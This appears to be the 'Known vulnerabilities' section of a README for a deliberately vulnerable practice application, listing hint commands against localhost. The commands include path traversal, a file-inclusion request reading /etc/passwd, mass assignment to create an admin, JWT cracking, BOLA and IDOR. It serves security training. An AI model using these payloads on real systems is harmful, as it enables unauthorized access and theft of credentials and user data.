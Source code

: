 # Known vulnerabilities

### Tips for admin app

- Path traversal - `curl http://localhost/admin/123/.%2e/users`
- Path traversal - `curl http://localhost/admin/123/.%2e/configuration`
- LFI - `curl http://localhost/admin/123/.%2e/configuration?file=/../../../../../../../etc/passwd`

### Tips for api app

* You can auth from admin app creds
* JWT token is crackable by jwt-tool and common list
* `CreateUserRequest` - give possibility to create a new admin with MassAssignment `curl -X POST -d '{"username": "test1", "password": "test", "admin": true}'`
* Possible to BOLA on cards `/cards` PUT request 
* Excessive Data Exposure on DELETE request `/cards`

### Tips for bff app

* IDOR on orders `localhost/bff/orders/{orderId}`
* Path traversal for get all users from bff to api - `localhost/bff/cards?cardId=../../../../system/all/users` or `localhost/bff/cards?cardId=../../../../actuator`


